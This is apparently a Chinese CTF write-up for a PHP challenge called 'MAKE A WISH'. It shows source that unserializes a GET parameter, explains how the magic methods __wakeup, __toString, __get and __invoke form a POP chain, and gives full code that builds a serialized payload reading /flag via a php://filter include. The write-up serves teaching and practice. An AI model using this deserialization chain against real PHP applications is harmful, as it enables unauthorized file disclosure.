

# 题目  
```php
Happy New Year~ MAKE A WISH
<?php

echo 'Happy New Year~ MAKE A WISH<br>';

if(isset($_GET['wish'])){
    @unserialize($_GET['wish']);
}
else{
    $a=new Road_is_Long;
    highlight_file(__FILE__);
}
/***************************pop your 2022*****************************/

class Road_is_Long{
    public $page;
    public $string;
    public function __construct($file='index.php'){
        $this->page = $file;
    }
    public function __toString(){
        return $this->string->page;
    }

    public function __wakeup(){
        if(preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->page)) {
            echo "You can Not Enter 2022";
            $this->page = "index.php";
        }
    }
}

class Try_Work_Hard{
    protected  $var;
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Make_a_Change{
    public $effort;
    public function __construct(){
        $this->effort = array();
    }

    public function __get($key){
        $function = $this->effort;
        return $function();
    }
}
/**********************Try to See flag.php*****************************/
```  
- __invoke函数，把类当作函数调用时被调用 
- __get函数在访问私有或者不存在的成员时自动被调用  


# WP  
1. 在Try_Work_Hard类中，有include函数，可以利用它通过php伪协议来对数据流读取，它在__invoke中被调用,
2. 在Make_a_Change类中，__get函数返回一种方法，而__invoke函数在类作为方法时被调用，所以可以通过__get来调用__invoke，需要构造一个Make_a_Change对象，并且$effort为一个Try_Work_Hard对象,并且这个Try_Work_Hard对象的var是要读取的，这里是php://filter/convert.base64-encode/resource=/flag
3. 要调用__get函数，可以通过Road_is_Long对象来调用，Road_is_Long类中有__toString函数，访问了page，而Make_a_Change类中没有page，__get在访问不存在的成员时会被调用，所以需要一个Road_is_Long对象，它的string是一个Make_a_Chang对象
4. __toString函数在类作为字符串使用时自动调用，在Road_is_Long中的__wakeup函数中将page赋值为一个字符串，因此构造的Road_is_Long对象中地方page也是一个Road_is_Long对象。
5. __wakeup函数在类反序列化时自动调用，因此wish应该时是构造出的Road_is_Long对象序列化的字符串。
6. 构造wish如下
```php
<?php
class Road_is_Long{
    public $page;
    public $string;
    public function __construct($file='index.php'){
        $this->page = $file;
    }
    public function __toString(){
        return $this->string->page;
    }

    public function __wakeup(){
        if(preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $this->page)) {
            echo "You can Not Enter 2022";
            $this->page = "index.php";
        }
    }
}

class Try_Work_Hard{
    protected  $var="php://filter/convert.base64-encode/resource=/flag";
    public function append($value){
        include($value);
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Make_a_Change{
    public $effort;
    public function __construct(){
        $this->effort = array();
    }

    public function __get($key){
        $function = $this->effort;
        return $function();
    }
}


$t=new Try_Work_Hard();
$m=new Make_a_Change();
$m->effort=$t;
$r1=new Road_is_Long();
$r1->string=$m;
$r2=new Road_is_Long();
$r2->page=$r1;

$wish=serialize($r2);
echo urlencode($wish);
```
注意要使用urlencode，否则会有不可打印字符吗，如果成员是protected修改会出错。  

7. 成功后如下，base64解码即可  
